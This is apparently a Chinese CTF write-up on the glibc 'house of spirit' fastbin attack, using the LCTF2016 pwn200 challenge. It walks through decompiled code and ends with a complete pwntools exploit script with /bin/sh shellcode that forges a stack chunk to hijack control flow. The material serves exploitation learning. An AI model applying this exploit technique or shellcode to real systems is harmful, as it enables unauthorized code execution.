 # house of spirit 
## Author: 文火
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>house系列之house of spirit，fastbin attack之一。<br>&nbsp;&nbsp;&nbsp;&nbsp;首先不可缺少的先贴[how2heap](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/house_of_spirit.c)以及[ctfwiki](https://ctf-wiki.github.io/ctf-wiki/pwn/heap/fastbin_attack/)两大pwn入门学习神资料。</font><br>

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>完了之后这里以一题我当时学习的LCTF2016例题pwn200来讲解，顺便贴上我当时学习的[原帖](http://pwn4.fun/2017/06/26/%E5%A0%86%E6%BC%8F%E6%B4%9E%E4%B9%8BHouse-of-Spirit/)。程序开头是这样的：</font><br>

```C
int sub_400A8E()
{
  signed __int64 i; // [rsp+10h] [rbp-40h]
  char v2[48]; // [rsp+20h] [rbp-30h]

  puts("who are u?");
  for ( i = 0LL; i <= 47; ++i )
  {
    read(0, &v2[i], 1uLL);
    if ( v2[i] == 10 )
    {
      v2[i] = 0;
      break;
    }
  }
  printf("%s, welcome to xdctf~\n", v2);
  puts("give me your id ~~?");
  gets();
  return sub_400A29();
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>经典的read代码，虽然没有溢出但是v2缓冲区没有'\0'截断，因此泄露了栈地址；在这里gets()函数（我重命名之后）的返回值事实上是保存在栈上了，看伪代码看不出来，但是反汇编很清楚，可以作为栈上伪造chunk的size，继续深入：</font><br>

```C
int sub_400A29()
{
  char buf; // [rsp+0h] [rbp-40h]
  char *dest; // [rsp+38h] [rbp-8h]

  dest = (char *)malloc(0x40uLL);
  puts("give me money~");
  read(0, &buf, 0x40uLL);
  strcpy(dest, &buf);
  ptr = dest;
  return sub_4009C4();
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>仔细看，这里buf接受0x40大小，而根据栈，实际上buf的最后8个字节是可以修改dest的地址的，那么实际上在这里已经可以控制写入地址了，那么我们把dest修改到printf函数的got表处，然后strcpy写入的时候把printf函数的got表修改为shellcode的入口地址处不就完了？没错，完了:)</font><br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>但既然我们是来学house of spirit还是不用这种“歪”脑筋吧，老老实实的把dest修改到栈上（具体可以根据之前泄露的栈地址精确计算到想要的地方），然后free之，再重新malloc就会把这个堆块再返回过来，然后就可以随意控制这一片栈了。</font><br>

脚本
======

```python
#搬运大佬BruceFan的脚本，plus非预期解

#encoding:utf-8
from pwn import *

#r = remote('127.0.0.1', 6666)
p = process("./pwn200")
elf = ELF('./pwn200')
printf_got=elf.got['printf']

shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

def pwn():
    # gdb.attach(p, "b *0x400991")

    data = shellcode.ljust(46, 'a')
    data += 'bb'
    p.send(data)
    p.recvuntil('bb')
    rbp_addr = p.recvuntil(', w')[:-3]
    rbp_addr = u64(rbp_addr.ljust(8,'\x00'))
    print hex(rbp_addr)

    fake_addr = rbp_addr - 0x90
    #fake_addr = printf_got
    
    shellcode_addr = rbp_addr - 0x50
    # 输入id伪造下一个堆块的size
    p.recvuntil('id ~~?')
    p.sendline('32')

    p.recvuntil('money~')
    
    #data = p64(shellcode_addr)+p64(0)*4+p64(0x41) 覆盖printf之got表为shellcode地址
    data = p64(0) * 5 + p64(0x41) # 伪造堆块的size
    data = data.ljust(0x38, '\x00') + p64(fake_addr) # 覆盖堆指针
    p.send(data)

    p.recvuntil('choice : ')
    p.sendline('2') # 释放伪堆块进入fastbin

    p.recvuntil('choice : ')
    p.sendline('1')
    p.recvuntil('long?')
    p.sendline('48')
    p.recvuntil('\n48\n') # 将伪堆块申请出来
    data = 'a' * 0x18 + p64(shellcode_addr) # 将eip修改为shellcode的地址
    data = data.ljust(48, '\x00')
    p.send(data)
    p.recvuntil('choice : ')
    p.sendline('3') # 退出返回时回去执行shellcode

    p.interactive()

if __name__ == '__main__':
    pwn()

```
